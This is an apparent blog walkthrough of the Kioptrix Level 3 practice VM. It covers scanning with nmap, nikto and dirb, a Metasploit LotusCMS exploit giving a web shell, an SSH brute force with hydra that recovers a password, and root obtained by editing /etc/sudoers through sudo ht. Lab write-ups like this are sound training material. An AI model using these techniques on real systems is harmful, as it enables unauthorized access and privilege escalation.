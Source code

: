 ```yaml
---
title: "Kioptrix Level 1.2 (#3)"
date: 2017-03-11 12:52:16 +0000
comments: true
categories: challenges
tags: challenges
---
```


![alt text]({{ site.baseurl }}/assets/images/kioptrix3/header.png)

**Name:** Kioptrix: Level 1.2 (#3)

**Date release:** 18 Apr 2011

**Author:** Kioptrix

**Series:** Kioptrix

**Web page:** [http://www.kioptrix.com/blog/?p=358](http://www.kioptrix.com/blog/?p=358)

**Vulnhub:** [https://www.vulnhub.com/entry/kioptrix-level-12-3%2C24/](https://www.vulnhub.com/entry/kioptrix-level-12-3%2C24/)


<!-- more -->


## Host Discovery

### Arp

`arp-scan -l`

### Ping

`ping 192.168.0.20`

## Port Scanning

### TCP

`nmap -sS -A -sC -sV -O -p0- 192.168.0.20 -oA nmap_tcp_full_ver_sV`

![alt text]({{ site.baseurl }}/assets/images/kioptrix3/1.png)


### UDP

`nmap -sU -n -oA nmap_udp_def 192.168.0.20`

No UDP ports found open

## Service Enumeration

### 22 - ssh

cant login. nothing of note

### 80 - http

http://192.168.0.20

![alt text]({{ site.baseurl }}/assets/images/kioptrix3/2.png)


Found a login page

http://192.168.0.20/index.php?system=Admin

![alt text]({{ site.baseurl }}/assets/images/kioptrix3/3.png)

**LotusCMS**

`nikto -h 192.168.0.20`

```bash
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.0.20
+ Target Hostname:    192.168.0.20
+ Target Port:        80
+ Start Time:         2017-06-19 11:32:35 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
+ Retrieved x-powered-by header: PHP/5.2.4-2ubuntu5.6
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.2.8 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ PHP/5.2.4-2ubuntu5.6 appears to be outdated (current is at least 5.6.9). PHP 5.5.25 and 5.4.41 are also current.
+ Server leaks inodes via ETags, header found with file /favicon.ico, inode: 631780, size: 23126, mtime: Fri Jun  5 15:22:00 2009
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ 7534 requests: 0 error(s) and 19 item(s) reported on remote host
+ End Time:           2017-06-19 11:32:57 (GMT-4) (22 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```


`dirb http://192.168.0.20`

A few intreasting directories 

```bash
---- Scanning URL: http://192.168.0.20:80/ ----
==> DIRECTORY: http://192.168.0.20:80/cache/
==> DIRECTORY: http://192.168.0.20:80/core/
+ http://192.168.0.20:80/data (CODE:403|SIZE:323)
+ http://192.168.0.20:80/favicon.ico (CODE:200|SIZE:23126)
==> DIRECTORY: http://192.168.0.20:80/gallery/
+ http://192.168.0.20:80/index.php (CODE:200|SIZE:1819)
==> DIRECTORY: http://192.168.0.20:80/modules/
==> DIRECTORY: http://192.168.0.20:80/phpmyadmin/
+ http://192.168.0.20:80/server-status (CODE:403|SIZE:332)
==> DIRECTORY: http://192.168.0.20:80/style/
```

http://192.168.0.20/phpmyadmin/

**phpmyadmin - 2.11.3.0**

![alt text]({{ site.baseurl }}/assets/images/kioptrix3/4.png)


## Exploitation

We find an intreasting module to use in **metasploit**

**exploit/multi/http/lcms_php_exec**

![alt text]({{ site.baseurl }}/assets/images/kioptrix3/5.png)

Execution of the exploit gives us a shell with **www-data** permissions

![alt text]({{ site.baseurl }}/assets/images/kioptrix3/6.png)

![alt text]({{ site.baseurl }}/assets/images/kioptrix3/ex.gif)

## Privilege Esculation

Looking around the file system

I found the user **loneferret** so decided to try bruteforce SSH using hydra. More on this later

**Gconfig.php** has mysql creds stored in clear-text which will be useful..

Checking back on my bruteforcing a little later we have a hit

`hydra -e nsr -l loneferret -P /usr/share/wordlists/rockyou.txt ssh -t 4`


![alt text]({{ site.baseurl }}/assets/images/kioptrix3/8.png)

Now SSH'd in as loneferret:starwars

![alt text]({{ site.baseurl }}/assets/images/kioptrix3/9.png)

![alt text]({{ site.baseurl }}/assets/images/kioptrix3/10.png)

`sudo ht`

gives us an error but using google fu we find a quickfix
[https://stackoverflow.com/questions/6804208/nano-error-error-opening-terminal-xterm-256color](https://stackoverflow.com/questions/6804208/nano-error-error-opening-terminal-xterm-256color)

Once we get it working we are faced with this screen.

![alt text]({{ site.baseurl }}/assets/images/kioptrix3/11.png)

After fighting with the gui and figuring out how to use this I open /etc/sudoers using **alt+f**

![alt text]({{ site.baseurl }}/assets/images/kioptrix3/12.png)

I added `, /bin/sh` to the end so we can bump to root.

Try again

![alt text]({{ site.baseurl }}/assets/images/kioptrix3/13.png)

got root :P
